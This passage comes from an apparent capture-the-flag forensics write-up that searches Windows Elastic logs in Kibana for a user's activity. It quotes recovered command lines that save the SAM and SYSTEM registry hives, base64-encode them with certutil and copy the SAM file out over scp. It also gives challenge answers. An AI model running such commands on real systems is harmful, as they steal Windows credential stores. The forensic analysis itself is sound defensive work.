 Now we can _"Create this as a new dataview"_ in Kibana section, providing
`logs-*` as the `Index pattern`

# Analyze the data

The data looks like a Windows log... casually Googling for
`powershell.command.invocation_details.name` got me
[this documentation](http://elastic.co/docs/current/integrations/windows) -
so, a Windows debugging log, using Elastic integration. It has a **ton** of
data and fields, and mixes all kinds of log: processes, files, commands... And
most fields are empty for most entries.

Let's just casually type `*ps1` in the search box. We get stuff! And only 44 records,
so, can inspect them manually. Some interesting tidbits:

*   `file.path:C:\Users\Steve\Downloads\report_generator.ps1`
*   `process.args: [powershell, ./test.ps1]`
*   `file.path:C:\Users\Steve\Documents\RegisterManifest.ps1`
*   `file.path:C:\Users\Steve\AppData\Local\Temp\__PSScriptPolicyTest_ip344m4y.kwx.ps1`
*   `process.args:[C:\Windows\System32\notepad.exe, C:\Windows\System32\elastic-agent-8.12.2-windows-x86_64\test.ps1]`

## Steve

We see there is this `Steve` guy, we should probably restrict our search to him
(`user.name : Steve`). Searching for `process.command_line : *` returns 987
results, but much of that is repetitive, internal Windows stuff. Sorting these
results alphabetically, makes it possible to skim through the list. We find
things like:

*   `"C:\Windows\System32\OpenSSH\scp.exe" sam transfer@192.168.1.101:/tmp/a/sam`
*   `"C:\Windows\System32\OpenSSH\ssh.exe" root@192.168.1.102`
*   `"C:\Windows\System32\notepad.exe" "C:\Windows\System32\elastic-agent-8.12.2-windows-x86_64\test.ps1"`
*   `"C:\Windows\regedit.exe"`
*   `"C:\Windows\system32\certutil.exe" -encode sam sam.base64`
*   `"C:\Windows\system32\certutil.exe" -encode system system.base64`
*   `"C:\Windows\system32\reg.exe" save HKLM\SAM sam`
*   `"C:\Windows\system32\reg.exe" save HKLM\SYSTEM system`
*   `"C:\Windows\system32\rundll32.exe" cryptext.dll,CryptExtOpenCER C:\Users\Steve\Documents\ca.crt`
*   `powershell  ./test.ps1`
*   `powershell  test.ps1`

## Questions 4/5: Grab and encode registry

Above list already provides very likely answers to these: **`sam,system`** and
**`sam.base64,system.base64`**.

## Questions 1/2: Rename file

